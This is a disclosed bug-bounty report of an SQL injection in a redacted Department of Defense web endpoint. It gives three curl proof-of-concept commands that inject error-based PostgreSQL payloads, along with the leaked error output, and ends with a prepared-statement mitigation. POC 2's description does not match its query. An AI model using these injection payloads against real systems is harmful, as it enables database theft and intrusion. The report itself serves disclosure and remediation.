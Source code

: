 # SQL Injection in █████

## Report Details
- **Report ID**: 1489744
- **URL**: https://hackerone.com/reports/1489744
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-02-23T13:30:42.273Z
- **Disclosed**: 2022-04-07T19:59:52.168Z

## Reporter
- **Username**: lubak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## References

## Impact

By using SQL injection, an attacker can exfiltrate the whole database, and gain RCE

## System Host(s)
████

## Affected Product(s) and Version(s)
████

## CVE Numbers


## Steps to Reproduce
POC 1 - curl command injecting query, returning database version:
curl https://█████████ -X POST -data="url=%2F████████&███████=AA'+OR(cast(version as date))LIKE'A" -k

POC 2 - curl command injecting query, returning current database:
curl https://███████████████ -X POST -data="url=%2F██████████&███=AA'+OR(cast(current_user as date))LIKE'A" -k
{"msg":"fail","err":"ERROR: invalid input syntax for type timestamp: \"████\""}

POC 3 - curl command injecting query, returning current user:
 curl https://█████████ -X POST -data="url=%2F████&█████=AA'+OR(cast(current_user as date))LIKE'A" -k
{"msg":"fail","err":"ERROR: invalid input syntax for type timestamp: \"███████\""}

## Suggested Mitigation/Remediation Actions
The vulnerable parameter "█████" in the ████████ endpoint should be sanitized properly. Usually this is done by implementing prepared statement.



## Attachments
No attachments
